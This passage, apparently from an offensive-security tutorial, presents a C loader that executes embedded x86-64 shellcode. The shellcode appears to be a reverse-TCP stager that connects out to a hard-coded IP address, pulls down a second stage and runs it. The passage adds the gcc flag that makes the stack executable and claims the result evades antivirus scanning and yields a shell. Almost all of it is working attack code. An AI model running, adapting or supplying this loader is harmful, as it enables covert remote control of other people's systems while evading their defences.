


## Shellcode
Our combined shellcode looks like so:
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

unsigned char buf[] = 
"\x48\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\xb2\x07\x0f\x05\x48\x85\xc0\x78\x51\x6a\x0a"
"\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
"\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00\x00\x50\xc0\xa8"
"\x31\x87\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x59"
"\x48\x85\xc0\x79\x25\x49\xff\xc9\x74\x18\x57\x6a\x23\x58\x6a"
"\x00\x6a\x05\x48\x89\xe7\x48\x31\xf6\x0f\x05\x59\x59\x5f\x48"
"\x85\xc0\x79\xc7\x6a\x3c\x58\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e"
"\x5a\x0f\x05\x48\x85\xc0\x78\xed\xff\xe6";

int main (int argc, char **argv) 
{
	// Run our shellcode
	int (*ret)() = (int(*)())buf;
  	ret();

}
```

## Compilation
We can proceed to compile our program as follows:
```sh
gcc -o hack.out hack.c -z execstack
```
Our _buf_ variable is a local variable and as such, is stored on the stack.
Our shellcode execution would normally be blocked as the stack is marked as non-executable for binaries compiled by modern versions of gcc.
We can explicitly allow it with the -z execstack parameter.

We can scan the file to see that it's not detected:


Running our shellcode gets us a shell on the system:
